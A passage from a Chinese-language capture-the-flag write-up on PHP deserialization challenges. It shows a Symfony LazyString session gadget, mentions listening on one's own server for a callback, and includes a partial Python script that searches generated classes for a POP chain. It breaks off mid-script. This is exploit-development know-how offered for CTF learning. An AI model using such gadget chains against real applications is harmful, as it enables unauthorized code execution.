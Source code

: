 ```php
    use Symfony\Component\String\LazyString;

    session_start();
    $_SESSION['feng'] = new LazyString();
}

```

还可以看看出题人的链子

https://tttang.com/archive/1393/

然后传入POST参数

![image-20220331142001599](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203311420760.png)

自己的云服务器监听，然后再get，就可以了。



##  FUMO_on_the_Christmas_tree

![image-20220331142309243](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203311423435.png)

![image-20220331142409073](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203311424290.png)



类似于强网杯那个`pop master`,给了几万个类，要我们进行反序列化

看大佬们的分析

`https://eastjun.top/2021/12/28/sctf2021/`

```python
import re
import base64

otov = {}
vtoo = {}
otoc = {}
ctoo = {}
otof = {}
ftoo = {}
otoa = {}
classes = {}

def trav(name, cls, al):
    if "fumo" in classes[name]:
        print("->".join(cls))
        print(f"start->{'->'.join(al)}->end",end="\n\n")
        return 1
    for call in otoc[name]:
        if call in ftoo.keys():
            next = ftoo[call]
            if next not in cls:
                trav(next, cls + [next], al+[otoa[name]])
    return 0

if __name__ == "__main__":
    with open("class.code") as f:
        text = f.read()
        res = re.findall("class[\w\W]+?}[\w\W]+?}", text)
        for i in res:
            name = re.findall("class (\w+)", i)[0]
            classes[name] = i
            fs = re.findall("public object (\$\w+?);", i)
```